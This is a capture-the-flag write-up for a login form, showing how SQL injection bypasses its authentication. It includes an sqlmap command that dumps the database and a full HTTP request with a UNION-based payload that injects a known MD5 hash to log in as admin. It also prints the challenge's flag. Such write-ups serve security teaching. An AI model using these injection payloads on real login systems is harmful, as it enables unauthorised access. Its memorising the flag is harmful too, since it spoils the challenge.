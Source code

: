 This time we will use SQLMap to extract data:
```
sqlmap -u http://195.200.18.108:10800/authbypass --data='username=*&password=1' -batch --dbms=sqlite --all
```
![image](https://github.com/user-attachments/assets/baffe562-f091-43d4-8897-1dd00164a359)

The database consists of one table, users, which has 3 columns. The query probably returns values ​​for all three columns.
We were also able to extract the administrator password hash, but it is not easy to crack it (since a fairly strong password was used to generate it). We need to find another way.
Let's try to form a query that will fool the logic of the authentication mechanism. Similar queries can be found, for example, on hacktricks: https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/login-bypass/sql-login-bypass.md
In this case, loads that take into account the transfer of our "known" password hash for the user are suitable. So, we won't need to know the password in plain text, because in the request we will pass a hash from our password, which we will calculate ourselves:
![image](https://github.com/user-attachments/assets/b7dcb5db-af69-480b-9a55-f07ea15389bd)

Let's try to adapt the requests above to our case:
```
md5(cherepawwka) = 428874936cb54b41723d4b6ce71ce834

Request:
POST /authbypass HTTP/1.1
Host: 195.200.18.108:10800
Content-Type: application/x-www-form-urlencoded
Content-Length: 116

username=123' and 1=0 union select 1,'admin','428874936cb54b41723d4b6ce71ce834' from users;-- -&password=cherepawwka
```
![image](https://github.com/user-attachments/assets/ddcd78b2-cb9c-476c-8dea-550b4329792f)

Thus, we bypassed the logic of the form, taking the coveted flag!

### Flag
```
tqlCTF{C7F_l1k3_SQL1_4u7h_byp455}
```

### Развертывание
```
docker build . -t yetanotherauthform
docker run -d -p 5000:80 yetanotherauthform
```

To stop container
```
docker ps -a  # get ID
docker stop ID
```












